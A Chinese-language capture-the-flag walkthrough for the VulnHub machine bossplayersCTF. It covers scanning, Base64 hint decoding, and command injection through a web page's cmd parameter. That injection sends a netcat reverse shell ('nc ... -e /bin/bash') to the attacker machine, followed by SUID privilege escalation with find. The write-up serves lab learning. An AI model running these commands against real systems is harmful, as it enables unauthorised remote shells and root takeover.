# bossplayersCTF

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：bossplayers（IP：192.168.56.101）

下载：https://www.vulnhub.com/entry/bossplayersctf-1,375/

## Let's go

```
nmap -A 192.168.56.101
```



```
dirb http://192.168.56.101/
```



> **浏览后发现Base64编码,为什么判断是Base64呢?请看下面**



```
echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
```



> **翻译为 "哈哈，再努力点，兄弟" , 看来方向错了**
>
> **我们回去首页，看看还有什么线索。功夫不负有心人**



```
echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' | base64 -d
echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' | base64 -d
```



> **感觉像在提示，我们试一下能不能使用命令**



```
nc -lp 4444
http://192.168.56.101/workinginprogress.php?cmd=nc 192.168.56.102 4444 -e /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
```



> **搜索具有SUID权限的文件,发现find命令具有此权限,我们使用find提权**

```
find / -name test -exec /bin/sh -p \;
cd /root
cat root.txt
echo 'Y29uZ3JhdHVsYXRpb25zCg==' | base64 -d
```

